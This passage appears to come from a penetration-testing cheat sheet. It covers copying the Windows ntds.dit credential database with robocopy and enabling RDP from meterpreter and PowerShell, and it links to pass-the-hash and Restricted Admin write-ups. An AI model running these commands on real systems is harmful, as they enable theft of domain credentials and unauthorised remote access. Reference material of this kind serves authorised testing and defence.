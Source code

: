 

### robocopy

```
PS > cmd /c where robocopy
PS > robocopy /B W:\Windows\NTDS\ntds.dit C:\Users\j1v37u2k3y\Documents\ntds.dit
```





# Remote Management

* [eventlogxp.com/blog/logon-type-what-does-it-mean/](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)




## RDP

* [syfuhs.net/how-authentication-works-when-you-use-remote-desktop](https://syfuhs.net/how-authentication-works-when-you-use-remote-desktop)
* [swarm.ptsecurity.com/remote-desktop-services-shadowing/](https://swarm.ptsecurity.com/remote-desktop-services-shadowing/)



### Enable RDP

Enable RDP from meterpreter:

```
meterpreter > run getgui -e
```

Enable RDP from PowerShell:

```
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
PS > Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
PS > Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" -Name "UserAuthentication" -Value 1
```



### Restricted Admin

* [www.kali.org/penetration-testing/passing-hash-remote-desktop/](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)
* [blog.ahasayen.com/restricted-admin-mode-for-rdp/](https://blog.ahasayen.com/restricted-admin-mode-for-rdp/)
* [labs.f-secure.com/blog/undisable/](https://labs.f-secure.com/blog/undisable/)
* [shellz.club/pass-the-hash-with-rdp-in-2019/](https://shellz.club/pass-the-hash-with-rdp-in-2019/)
